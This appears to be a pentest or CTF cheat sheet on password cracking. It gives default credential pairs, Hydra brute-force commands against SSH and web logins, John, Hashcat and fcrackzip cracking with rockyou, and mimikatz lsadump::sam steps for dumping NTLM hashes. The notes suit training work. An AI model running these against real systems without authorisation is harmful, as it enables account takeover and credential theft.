 # Password Cracking

## Default Credentials

    admin:admin admin:password root:root root:toor

## Password Attacks

Try same user, reverse user and null as password against a login for a quick check

    hydra -l USER -e nsr IP ssh -V

Burpsuite Intruder if we want to

    john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt

    sudo gzip -d rockyou.txt.gz

    hydra -l noman -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.10.10

    hydra -l noman -P /usr/share/wordlists/rockyou.txt 192.168.10.10 http-post

    hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.10.10 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

    hashcat -b | hashcat.exe -b (linux and window benchmark)

customize wordlists

    head /usr/share/wordlists/rockyou.txt > demo.txt | sed -i '/^1/d' demo.txt

if we want to add 1 in all password then | 

    echo \$1 > demo.rule | hashcat -r demo.rule --stdout demo.txt

    hash-identifier (find hash if simple)

    hashid (if id is available "$2y$10$)

    ssh2john id_rsa > ssh.hash | hashcat -h | grep -i "ssh" (port22)

## Zip Cracking

    fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' chall.zip

    zip2john file.zip > zip.john
    john zip.john

## NTLM Crack

    token::elevate (check user permission) | lsadump::sam (dump all user ntlm)

Then

    hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
